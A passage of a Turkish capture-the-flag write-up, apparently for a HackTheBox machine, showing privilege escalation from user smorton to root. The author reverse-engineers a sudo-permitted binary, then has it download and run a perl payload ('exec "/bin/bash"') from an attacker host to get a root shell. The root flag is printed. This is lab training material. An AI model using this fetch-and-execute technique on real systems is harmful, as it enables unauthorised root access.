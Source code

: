 # <span style="color:#AA0E1C"><b># PrivEsc: smorton → root</b></span>

İlk olarak `sudo -l` komutunu kontrol ettim.

```bash
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
smorton@investigation:~$
```

binary dosyasını çalıştırmayı denedim.

```bash
smorton@investigation:~$ sudo /usr/bin/binary
Exiting... 
smorton@investigation:~$
```

Birkaç şey denedikten sonra bu elf dosyasını analiz etmeye karar verdim ve kendi makineme transfer ettim.

Ghidra ile açtım.

![https://i.ibb.co/MpcSPGg/image.png](https://i.ibb.co/MpcSPGg/image.png)

Kodu şu şekilde açıklayım:

- Bağımsız değişken sayısı 3 değilse çıkış yapar.
- _Var1 değişkeni yani UID 0 değilse çıkış yapar.
- iVar2 değişkeni ‘lDnxUysaQn’ dizisine eşit değilse çıkış yapar.

Yukarıdaki kontroller geçildiğinde ise belirtilen url’deki veriyi indirir ve perl kullanarak çalıştırır.

Exploit etmek için bir perl dosyası oluşturacağım.

```bash
exec "/bin/bash";
```

priv.pl olarak kaydettim. Şimdi hedef makinede şu kodu çalıştıracağım.

```bash
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.106/priv.pl lDnxUysaQn
Running... 
root@investigation:/home/smorton#
```

Artık root.txt dosyasını okuyabilirim.

```bash
root@investigation:/home/smorton# cat /root/root.txt
73fc3d3b85c2e6e8df6ce72756a189c8
root@investigation:/home/smorton#
```
